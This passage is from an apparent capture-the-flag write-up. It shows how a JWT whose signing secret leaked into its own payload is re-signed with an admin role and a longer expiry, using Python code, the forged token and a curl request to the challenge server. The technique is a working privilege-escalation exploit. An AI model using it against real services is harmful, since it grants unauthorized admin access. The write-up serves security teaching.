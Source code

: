 (I added `=` characters to the end of the second and third strings in order to make their lengths a multiple of 4, i.e. standard Base64 padding.)

The `JWT` bit is particularly interesting. JWT stands for [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token), and is a simple format for issuing tokens from the server to the client that cannot easily be manipulated. The contents of the token are signed with a key only the server knows and the signature is attached to the token. If either changes, the token is rejected. But ... we have a `secret` value in the payload (the second part of the token)! Let's assume it is the signing key and forge the token such that our `type` is `admin` instead of `user`.

```python
import hmac
import hashlib
import base64

# the header is the same
headerData = b'{"alg":"HS256","typ":"JWT"}'
headerB64 = base64.b64encode(headerData, "-_").strip("=")

# modified payload
# - set the type to admin
# - remove the secret (why not)
# - extend the expiry timestamp
payloadData = b'{"type":"admin","iat":1537298018,"exp":1608495620}'
payloadB64 = base64.b64encode(payloadData, "-_").strip("=")

secret = "ufoundme!"
toDigest = bytes(headerB64 + "." + payloadB64)
signature = hmac.new(secret, toDigest, digestmod = hashlib.sha256).digest()
signatureB64 = base64.b64encode(signature, "-_").strip("=")

print ".".join([headerB64, payloadB64, signatureB64])
```

    $ python token.py
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJpYXQiOjE1MzcyOTgwMTgsImV4cCI6MTYwODQ5NTYyMH0.ULVv8Amb2Ai1R57Sr3mPhtU9q-et4ttN2kudnoZrwl0

And with this modified token:

    $ curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJpYXQiOjE1MzcyOTgwMTgsImV4cCI6MTYwODQ5NTYyMH0.ULVv8Amb2Ai1R57Sr3mPhtU9q-et4ttN2kudnoZrwl0" \
      "http://web.chal.csaw.io:9000/protected"

We get the flag!

`flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`
